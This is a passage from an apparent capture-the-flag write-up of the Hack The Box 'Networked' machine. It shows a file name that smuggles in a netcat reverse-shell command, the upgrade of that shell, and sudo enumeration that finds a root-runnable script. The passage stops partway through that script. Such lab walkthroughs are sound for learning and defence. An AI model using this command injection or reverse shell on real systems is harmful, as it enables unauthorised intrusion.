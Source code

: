 
So I tried `touch '; nc -c bash 10.10.14.20 1338'`


```
root@kali:/home/kali/htb/Networked# nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.112.184 59124
whoami
guly
```


that worked out. I improved the shell:

```
script /dev/null -c bash
[guly@networked ~]$ ^Z
[1]+  Stopped                 nc -nlvp 1338
root@kali:/home/kali/htb/Networked# stty -raw echo
root@kali:/home/kali/htb/Networked# fg
nc -nlvp 1338
reset
reset: unknown terminal type unknown
Terminal type? xterm
xterm
Erase set to delete.
Kill set to control-U (^U).
Interrupt set to control-C (^C).
[guly@networked ~]$ export TERM=xterm
export TERM=xterm
[guly@networked ~]$ export SHELL=bash
export SHELL=bash
[guly@networked ~]$ id
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ 
```


So we see that guly has a root command.

```
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
```